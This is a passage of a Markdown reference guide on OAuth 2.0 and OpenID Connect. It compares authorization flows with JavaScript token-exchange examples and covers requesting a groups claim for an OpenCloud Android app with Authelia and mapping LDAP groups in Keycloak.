  "sub": "Unique identifier for the End-User at the Issuer",
  "name": "End-User's full name in displayable form",
  "given_name": "Given name(s) or first name(s) of the End-User",
  "family_name": "Surname(s) or last name(s) of the End-User",
  "middle_name": "Middle name(s) of the End-User",
  "nickname": "Casual name of the End-User",
  "preferred_username": "Shorthand name by which the End-User wishes to be referred to",
  "profile": "URL of the End-User's profile page",
  "picture": "URL of the End-User's profile picture",
  "website": "URL of the End-User's Web page or blog",
  "email": "End-User's preferred e-mail address",
  "email_verified": "True if the End-User's e-mail address has been verified; otherwise false",
  "gender": "End-User's gender",
  "birthdate": "End-User's birthday, represented as an ISO 8601:2004 [ISO8601‑2004] YYYY-MM-DD format",
  "zoneinfo": "String from zoneinfo time zone database representing the End-User's time zone",
  "locale": "End-User's locale, represented as a BCP47 [RFC5646] language tag",
  "phone_number": "End-User's preferred telephone number",
  "phone_number_verified": "True if the End-User's phone number has been verified; otherwise false",
  "address": "End-User's preferred postal address",
  "updated_at": "Time the End-User's information was last updated"
}
```

[rfc6749]: https://www.rfc-editor.org/rfc/rfc6749.html
[oidc-core]: https://openid.net/specs/openid-connect-core-1_0.html
[oidc-discovery]: https://openid.net/specs/openid-connect-discovery-1_0.html
[rfc8252]: https://www.rfc-editor.org/rfc/rfc8252.html
[oauth-security]: https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics
[rfc7636]: https://www.rfc-editor.org/rfc/rfc7636.html
[rfc7519]: https://www.rfc-editor.org/rfc/rfc7519.html
[rfc7515]: https://www.rfc-editor.org/rfc/rfc7515.html
[rfc7517]: https://www.rfc-editor.org/rfc/rfc7517.html

</details>

---

### Flow Comparison Detailed

<details>
<summary>Click to expand: Detailed comparison of OAuth/OIDC flows</summary>

#### Authorization Code Flow

**Best for:** Server-side web apps, mobile apps (most common)

**Characteristics:**

- ✅ Most secure
- ✅ Supports refresh tokens
- ✅ ID token + Access token
- ⚠️ Requires back-channel (server-to-server)

**Flow diagram:**



**Code example:**

```javascript
// Step 1: Redirect to IDP
app.get('/login', (req, res) => {
  const authUrl = `https://auth.example.com/authorize?` +
    `response_type=code&` +
    `client_id=MyApp&` +
    `redirect_uri=https://myapp.com/callback&` +
    `scope=openid profile email&` +
    `state=${generateState()}`

  res.redirect(authUrl)
})

// Step 2: Handle callback
app.get('/callback', async (req, res) => {
  const { code, state } = req.query

  // Verify state (CSRF protection)
  if (!verifyState(state)) {
    return res.status(403).send('Invalid state')
  }

  // Exchange code for tokens
  const tokenResponse = await fetch('https://auth.example.com/token', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: new URLSearchParams({
      grant_type: 'authorization_code',
      code: code,
      redirect_uri: 'https://myapp.com/callback',
      client_id: 'MyApp',
      client_secret: 'SECRET'  // Back-channel = safe to use secret
    })
  })

  const tokens = await tokenResponse.json()
  // tokens.id_token, tokens.access_token, tokens.refresh_token

  // Create session
  req.session.user = parseIdToken(tokens.id_token)
  req.session.accessToken = tokens.access_token
  req.session.refreshToken = tokens.refresh_token

  res.redirect('/dashboard')
})
```

---

#### Authorization Code + PKCE Flow

**Best for:** SPAs, native mobile apps, any public client

**Characteristics:**

- ✅ Secure for public clients
- ✅ No client secret needed
- ✅ Supports refresh tokens
- ✅ Prevents code interception

**PKCE additions to standard flow:**



**Code example (mobile app):**

```javascript
// Step 1: Generate PKCE params
const codeVerifier = generateRandomString(128)
const codeChallenge = base64UrlEncode(sha256(codeVerifier))

// Save verifier for later
await secureStorage.save('code_verifier', codeVerifier)

// Step 2: Build auth URL with PKCE
const authUrl = `https://auth.example.com/authorize?` +
  `response_type=code&` +
  `client_id=MyMobileApp&` +
  `redirect_uri=myapp://callback&` +
  `scope=openid profile email offline_access&` +
  `code_challenge=${codeChallenge}&` +
  `code_challenge_method=S256&` +
  `state=${generateState()}`

// Step 3: Open browser
openBrowser(authUrl)

// Step 4: Handle callback (from custom URL scheme)
handleCallback = async (url) => {
  const params = parseUrl(url)
  const { code, state } = params

  // Retrieve saved verifier
  const codeVerifier = await secureStorage.get('code_verifier')

  // Exchange code for tokens
  const tokenResponse = await fetch('https://auth.example.com/token', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: new URLSearchParams({
      grant_type: 'authorization_code',
      code: code,
      redirect_uri: 'myapp://callback',
      client_id: 'MyMobileApp',
      code_verifier: codeVerifier  // PKCE verifier (no secret!)
    })
  })

  const tokens = await tokenResponse.json()

  // Store tokens securely
  await secureStorage.save('id_token', tokens.id_token)
  await secureStorage.save('access_token', tokens.access_token)
  await secureStorage.save('refresh_token', tokens.refresh_token)
}
```

---

#### Client Credentials Flow

**Best for:** Service-to-service, machine-to-machine, no user involved

**Characteristics:**

- ✅ Simple, straightforward
- ✅ No user interaction
- ❌ No ID token (no user)
- ❌ No refresh token (long-lived access token instead)

**Flow:**



**Code example:**

```javascript
// Get access token
const tokenResponse = await fetch('https://auth.example.com/token', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: new URLSearchParams({
    grant_type: 'client_credentials',
    scope: 'read:data write:data',
    client_id: 'BackgroundService',
    client_secret: 'SERVICE_SECRET'
  })
})

const { access_token } = await tokenResponse.json()

// Use token to call API
const apiResponse = await fetch('https://api.example.com/data', {
  headers: {
    'Authorization': `Bearer ${access_token}`
  }
})
```

---

#### Implicit Flow (DEPRECATED)

**Don't use:** Deprecated in OAuth 2.0 Security Best Current Practice

**Why it exists:** Historical - for SPAs before CORS was widely supported

**Why deprecated:**

- ❌ Tokens in URL fragment (browser history leak)
- ❌ No refresh tokens
- ❌ No client authentication
- ❌ Vulnerable to XSS

**Use instead:** Authorization Code + PKCE

**For reference only (don't use):**

```javascript
// OLD WAY (don't do this)
const authUrl = `https://auth.example.com/authorize?` +
  `response_type=token id_token&`  // Returns tokens directly!
  `client_id=MyApp&` +
  `redirect_uri=https://myapp.com/callback&` +
  `scope=openid profile email`

// Tokens returned in URL fragment:
// https://myapp.com/callback#access_token=xyz&id_token=abc&...

// Problems:
// - Visible in browser history
// - Can be logged by proxies/CDNs
// - Leaked via Referer header
// - No security
```

---

#### Flow Decision Matrix

| Client Type         | Can Keep Secret? | User Involved? | Recommended Flow        |
| ------------------- | ---------------- | -------------- | ----------------------- |
| Server-side web app | ✅ Yes            | ✅ Yes          | Authorization Code      |
| SPA (React, Vue)    | ❌ No             | ✅ Yes          | Auth Code + PKCE        |
| Native mobile app   | ❌ No             | ✅ Yes          | Auth Code + PKCE        |
| Desktop app         | ❌ No             | ✅ Yes          | Auth Code + PKCE        |
| Service/daemon      | ✅ Yes            | ❌ No           | Client Credentials      |
| Legacy SPA          | ❌ No             | ✅ Yes          | ⚠️ Implicit (deprecated) |

</details>

---

## Real-World Examples

### OpenCloud + Authelia Integration

**Scenario:** Android app authenticating users via Authelia, needs groups for role assignment.

**The Problem:**

```javascript
// Web app config (works)
WEB_OIDC_SCOPE = "openid profile email groups"

// Android hardcoded scopes (broken)
scope = "openid offline_access email profile"  // No groups!

// Result: No groups claim → role assignment fails
```

**Solution Options:**

**Option 1: Hardcode groups scope** (simple but risky)

```xml
<!-- Android: opencloudApp/src/main/res/values/setup.xml -->
<string name="oauth2_openid_scope">
  openid offline_access email profile groups
</string>

<!-- Risk: Breaks if IDP doesn't support 'groups' scope -->
```

**Option 2: Dynamic scope checking** (better)

```javascript
const discovery = await fetch(
  'https://auth.example.com/.well-known/openid-configuration'
)
const config = await discovery.json()

const scopes = ["openid", "offline_access", "email", "profile"]

if (config.scopes_supported?.includes("groups")) {
  scopes.push("groups")
}

authorize(scopes)
```

**Option 3: Claims parameter** (most robust)

```javascript
const discovery = await fetch(
  'https://auth.example.com/.well-known/openid-configuration'
)
const config = await discovery.json()

const scopes = ["openid", "offline_access", "email", "profile"]
let claims = null

if (config.claims_parameter_supported === true &&
    config.claims_supported?.includes("groups")) {
  claims = {
    "id_token": {
      "groups": null
    }
  }
}

authorize(scopes, claims)
```

**Option 4: Server-driven** (ideal future)

```javascript
// Client queries OpenCloud server
const config = await fetch('https://opencloud.example.com/oidc/client-config')
const { scopes, claims } = await config.json()

// Server returns what to request based on IDP
authorize(scopes, claims)
```

---

### Keycloak Custom Claim Mapping

**Scenario:** Map LDAP groups to custom claims in Keycloak.

**Keycloak configuration:**

1. Create client scope "groups"
2. Add mapper: "Group Membership"
   - Token Claim Name: `groups`
   - Full group path: OFF
   - Add to ID token: ON
   - Add to access token: ON
   - Add to userinfo: ON

3. Assign scope to client
   - Client → Client Scopes → Add "groups" as default scope

**Result:**

```javascript
// ID Token includes
{
  "groups": ["admin", "users", "editors"]
}
```

---

## Glossary

**Authorization:** What you're allowed to do (permissions)

**Authentication:** Proving who you are (identity)

**Bearer Token:** Token type sent in `Authorization: Bearer {token}` header

**Client:** Application using OAuth/OIDC (same as Relying Party)

**Consent:** User approving app's access request

**Discovery:** Automatic endpoint/capability detection via `.well-known`

**Grant Type:** OAuth flow type (authorization_code, refresh_token, etc.)

**IDP:** Identity Provider (same as OpenID Provider)

**JWT:** JSON Web Token - signed JSON payload

**PKCE:** Proof Key for Code Exchange - security extension for public clients

**Public Client:** Can't keep secrets (mobile/SPA/desktop apps)

**Confidential Client:** Can keep secrets (server-side apps)

**RP:** Relying Party (same as Client)

**Scope:** Permission request

**Claim:** Data element in token

**Subject (sub):** Unique user identifier

**Issuer (iss):** Who created the token

**Audience (aud):** Who the token is for

---

## Changelog

**2025-01-22:** Initial version created

---

## Contributing

Found an error or want to add clarification? This document is maintained as a personal reference but
corrections are welcome.
